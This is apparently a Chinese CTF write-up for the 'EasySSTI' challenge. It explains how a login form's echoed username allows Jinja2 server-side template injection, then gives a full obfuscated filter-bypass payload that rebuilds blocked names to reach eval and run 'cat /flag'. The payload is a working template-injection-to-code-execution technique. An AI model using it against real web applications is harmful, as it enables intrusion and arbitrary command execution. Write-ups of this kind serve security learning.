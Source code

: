 ## [Dest0g3 520迎新赛]EasySSTI

进入题目是一个登录框，点击登录可以回显用户名，经过尝试发现存在SSTI：

[![](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220914105747423-959995265.png)](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220914105747423-959995265.png)

经过Fuzz，发现过滤了 `_.'"[]`等字符，还有各种class、request、eval等关键字。  
需要注入也就是需要程序执行的代码如下：

```python
__import__('os').popen('cat /flag').read()
```

通过过滤器构造payload：

```python
{% set zero = (self|int) %}
{% set one = (zero**zero)|int %}
{% set two = (zero-one-one)|abs %}
{% set four = (two*two)|int %}
{% set five = (two*two*two)-one-one-one %}
{% set three = five-one-one %}
{% set nine = (two*two*two*two-five-one-one) %}
{% set seven = (zero-one-one-five)|abs %}
{% set space = self|string|min %}
{% set point = self|float|string|min %}
{% set c = dict(c=aa)|reverse|first %}
{% set bfh = self|string|urlencode|first %}
{% set bfhc = bfh~c %}
{% set slas = bfhc%((four~seven)|int) %}
{% set yin = bfhc%((three~nine)|int) %}
{% set xhx = bfhc%((nine~five)|int) %}
{% set right = bfhc%((four~one)|int) %}
{% set left = bfhc%((four~zero)|int) %}
{% set but = dict(buil=aa,tins=dd)|join %}
{% set imp = dict(imp=aa,ort=dd)|join %}
{% set pon = dict(po=aa,pen=dd)|join %}
{% set so = dict(o=aa,s=dd)|join %}
{% set ca = dict(ca=aa,t=dd)|join %}
{% set ls = dict(ls=x)|join %}
{% set ev = dict(ev=aa,al=dd)|join %}
{% set red = dict(re=aa,ad=dd)|join %}
{% set bul = xhx~xhx~but~xhx~xhx %}
{% set ini = dict(ini=aa,t=bb)|join %}
{% set glo = dict(glo=aa,bals=bb)|join %}
{% set itm = dict(ite=aa,ms=bb)|join %}
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~(dict(flag=1)|join)~yin~right~point~red~left~right %}
{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}
    {% if f == bul %}
        {% for a,b in (v|attr(itm))() %}
            {% if a == ev %}
                {{b(pld)}}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```
